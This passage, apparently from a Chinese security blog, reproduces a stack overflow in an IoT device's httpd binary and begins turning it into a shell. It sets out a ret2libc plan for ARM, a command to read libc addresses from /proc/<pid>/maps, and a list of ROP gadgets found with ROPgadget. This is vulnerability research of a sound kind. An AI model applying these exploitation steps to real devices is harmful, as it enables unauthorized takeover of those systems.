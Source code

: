 可以发现系统停止了运行并在监听端出现报错

到这里复现就成功了

## 更进一步

既然栈溢出能成功，那么我们是否可以更进一步拿到 shell？

答案自然是可以的，程序只开启了 nx，无法直接写 shellcode，而程序中的后门函数不大好利用，并且考虑到 IoT 设备为效率考虑一般是不会开 aslr 的，所以我们可以直接通过 ret2libc 来进行利用

首先找到该进程加载的 libc 基地址和栈地址

```bash
cat /proc/'pid号'/maps
```

[![](assets/1706959011-6acca2952a6a679b78363cc7f96562a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170550-19f906ec-bc2a-1.png)

用 ROPgadget 看看有那些可以利用的 gadget

```bash
root@rbcpwn-virtual-machine:~/Desktop# ROPgadget --binary httpd --only 'pop|ret'
Gadgets information
============================================================
0x00024364 : pop {r1, pc}
0x00015c3c : pop {r3, pc}
0x0000d9f0 : pop {r3, r4, r5, pc}
0x0000aa94 : pop {r3, r4, r5, r6, r7, pc}
0x00011a58 : pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x00011c54 : pop {r3, r4, r5, r6, r7, r8, sb, pc} ; pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x0000e4d8 : pop {r3, r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x0000a884 : pop {r4, pc}
0x0000d6cc : pop {r4, r5, pc}
0x0000a91c : pop {r4, r5, r6, pc}
0x0001757c : pop {r4, r5, r6, pc} ; pop {r4, r5, r6, pc}
0x0001412c : pop {r4, r5, r6, r7, pc}
0x0001bdb4 : pop {r4, r5, r6, r7, r8, fp, pc}
0x0000a9e0 : pop {r4, r5, r6, r7, r8, pc}
0x0000f2a4 : pop {r4, r5, r6, r7, r8, sb, pc}
0x0000a504 : pop {r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x0000c708 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
```

